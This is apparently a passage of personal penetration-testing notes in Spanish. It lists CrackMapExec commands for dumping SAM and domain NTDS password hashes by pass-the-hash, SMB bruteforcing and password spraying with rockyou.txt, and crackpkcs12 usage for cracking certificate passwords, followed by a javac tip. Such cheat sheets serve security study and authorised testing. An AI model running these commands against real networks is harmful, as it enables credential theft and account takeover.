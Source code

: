 cme smb \&lt;ip\&gt; -u &#39;\&lt;user\&gt;&#39; -H &#39;\&lt;hashntlm\&gt;&#39; --sam

![](RackMultipart20210412-4-pcx9xb_html_c15f27a6dba14d03.png)

## Dump de Hashes del dominio

cme smb \&lt;ip\&gt; -u &#39;\&lt;user\&gt;&#39; -H &#39;\&lt;hashntlm\&gt;&#39; --ntds vss

![](RackMultipart20210412-4-pcx9xb_html_89476ef78861acf6.png)

## Bruteforcing

cme smb \&lt;ip\&gt; -u &#39;mvasquez&#39; -p /rockyou.txt



## Password spraying

Al tener una credencial, prueba en cuántos equipos tenemos permisos.

![](RackMultipart20210412-4-pcx9xb_html_8259a971c18a78f4.png)





# Crackpkcs

sábado, 27 de febrero de 2021

22:04

[https://github.com/crackpkcs12/crackpkcs12](https://github.com/crackpkcs12/crackpkcs12)

ejemplo

/usr/local/bin/crackpkcs12 cert.pfx -d ~/Downloads/rockyou.txt





Para comprobar

openssl pkcs12 -info -in cert.pfx

Enter Import Password:





# Compilar .Java

jueves, 28 de enero de 2021

12:31

javac algo.java ---\&gt;creará un archivo .class
